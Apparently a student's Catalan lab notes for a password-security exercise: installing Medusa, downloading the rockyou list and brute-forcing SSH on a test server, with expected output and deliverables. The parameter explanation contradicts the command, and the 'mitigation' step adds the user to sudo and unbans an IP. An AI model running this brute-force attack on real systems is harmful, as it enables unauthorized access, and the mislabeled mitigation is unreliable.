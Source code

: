 
Per a dur a terme l'exercici i provar un atac per força bruta contra el servidor **B** des de **A** utilitzant **Medusa**, seguirem aquests passos detallats. Aquest exercici es centra a simular un atac per força bruta per avaluar la seguretat de les contrasenyes.

---

### **Configuració de l'entorn**
#### 1. **Instal·lar Medusa a A**
Primer, instal·la **Medusa** al sistema A des dels repositoris de Debian:

```bash
sudo apt update
sudo apt install medusa
```

#### 2. **Crear un usuari a B amb una contrasenya habitual/comuna**
Al servidor **B**, crea un usuari amb una contrasenya coneguda o feble. Pots fer-ho amb els següents passos:

1. Crear l'usuari:
   ```bash
   sudo adduser usuari_test
   ```

2. Assignar una contrasenya feble:
   Quan se't demani una contrasenya, utilitza una de les contrasenyes més habituals (per exemple, **123456**.

---

### **Preparació de la llista de contrasenyes**
En `A` Baixa una llista de contrasenyes habituals des d'un repositori públic, com ara **SkullSecurity**. Per exemple:

En firefox buscar `downloads.skullsecurity.org/passwords`
Descarregar `rockyou-10.txt.bz2`

Ho canviem a la carpeta `practica3/Passwords`
Descomprimeix el fitxer si està comprimit:

```bash
bunzip2 rockyou-10.txt.bz2
```

---

### **Execució de l'atac amb Medusa**
L'atac es farà des de **A** cap a **B**. Medusa és una eina de força bruta multi-threaded, molt eficient per comprovar credencials contra serveis com SSH.

#### Exemple d'atac SSH:
Suposem que:
- **IP del servidor B**: `20.20.20.195`
- **Usuari a atacar**: ``
- **Fitxer de contrasenyes**: `rockyou-10.txt`

Executa Medusa amb la següent comanda:

S'ha intentat canviar el nom d'usuari de b però no deixa.

```bash
medusa -h 20.20.20.195 -u prac3_ex5 -P rockyou.txt -M ssh
```

**Explicació dels paràmetres**:
- `-h 192.168.1.2`: Adreça IP del servidor **B**.
- `-u usuari_test`: Nom de l'usuari a provar.
- `-P rockyou.txt`: Fitxer que conté la llista de contrasenyes.
- `-M ssh`: Mòdul a utilitzar, en aquest cas **SSH**.

---

### **Verificació del resultat**
1. **Si la contrasenya es troba**, Medusa mostrarà el següent missatge:
   ```
   ACCOUNT FOUND: [ssh] Host: 192.168.1.2 User: usuari_test Password: 123456
   ```
   Això indica que s'ha pogut trobar la contrasenya correcta.

2. **Si no es troba cap contrasenya vàlida**, és possible que:
   - La contrasenya no estigui a la llista.
   - Hi hagi un sistema de bloqueig d'IPs actiu després de múltiples intents fallits.

---

### **Mesures de mitigació**
Després de realitzar l'atac, és important implementar mesures de seguretat per protegir el servidor **B**. Algunes recomanacions inclouen:

0. Possar com a root el nostre usuari `prac3_ex5`.
Des d'adminp possar:
```shell
sudo usermod -aG sudo prac3_ex5
```

Desbanear ip:
```shell
sudo fail2ban-client set JAIL unbanip IP_ADDRESS
```


---

### **Lliurament**
- **Captures de pantalla** que mostrin:
  - L'execució del programa Medusa i la troballa de la contrasenya (si escau).
  - La configuració de les contrasenyes i usuaris al servidor **B**.
- **Gràfica o resum** dels intents i els temps necessaris per superar l'autenticació.
- **Mesures de seguretat** implementades després de l'exercici per protegir el sistema.

Amb aquest exercici pots avaluar tant la força de les contrasenyes com les vulnerabilitats del servidor **B** enfront d'atacs de força bruta.